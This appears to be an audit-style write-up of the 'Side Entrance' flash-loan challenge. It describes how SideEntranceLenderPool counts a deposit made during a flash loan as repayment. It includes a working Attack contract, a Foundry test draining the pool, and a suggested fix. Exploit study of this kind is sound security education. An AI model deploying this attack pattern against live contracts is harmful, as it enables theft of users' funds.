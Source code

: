 ## Critical Severity Issues

### [C-1] Side Entrance Vulnerability in `SideEntranceLenderPool` Protocol

**Description:** The `SideEntranceLenderPool` protocol provides flash loans to anyone. A malicious actor calls the `flashLoan` function and takes out the flash loan to its target `Attack` contract. Before repaying the protocol, it updates the protocol balance to the same as before but deposits this balance for itself, making the protocol behave as if no flash loan was granted. This attack is only possible due to the external call via `IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();`.

```javascript
function flashLoan(uint256 amount) external {
    uint256 balanceBefore = address(this).balance;

@>  IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
    }
```

**Impact:** A malicious actor takes advantage of the external call to take the flash loan and deposit into the same pool for themselves. This balances the pool funds before the flashLoan function execution completes.

Attack Contract:

```javascript
import {SideEntranceLenderPool} from "../src/SideEntranceLenderPool.sol";

contract Attack {
    SideEntranceLenderPool pool;

    constructor(SideEntranceLenderPool _pool) {
        pool = _pool;
    }

    function execute() external payable {
        pool.deposit{value: msg.value}();
    }

    receive() external payable {}
}

```

**Proof of Concept:**

1. The Attacker calls the flashLoan
2. `SideEntranceLenderPool` lends flash loan
3. Tokens are sent to the `Attack` contract
4. The attacker deposits funds for themselves
5. Later withdraws all the funds from the pool
6. Leaves the pool empty

**Proof of Code:**

```javascript
function testAttack() public {
        vm.startPrank(address(attack));

        console2.log("Pool Funds ", address(pool).balance);
        console2.log("Attacker funds ", address(attack).balance);

        pool.flashLoan(address(pool).balance);

        pool.withdraw();

        assertEq(address(pool).balance, 0);
        assertEq(address(attack).balance, 1e24);

        console2.log("Pool Funds ", address(pool).balance);
        console2.log("Attacker funds ", address(attack).balance);
        vm.stopPrank();
    }
```

**Recommended Mitigation:** Track outstanding loans separately from deposited funds.
Maintain a mapping for active loans:

```javascript
mapping(address => uint256) public outstandingLoans;
```

Require borrowers to repay loans explicitly rather than allowing deposits to count as repayment:

```javascript
function repayLoan() external payable {
    outstandingLoans[msg.sender] -= msg.value;
    }
```

```diff
function flashLoan(uint256 amount) external {
+     outstandingLoans[msg.sender] += amount;
      IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

-     if (address(this).balance < balanceBefore) revert RepayFailed();
+     require(outstandingLoans[msg.sender] == 0, "Loan not repaid");
    }
```
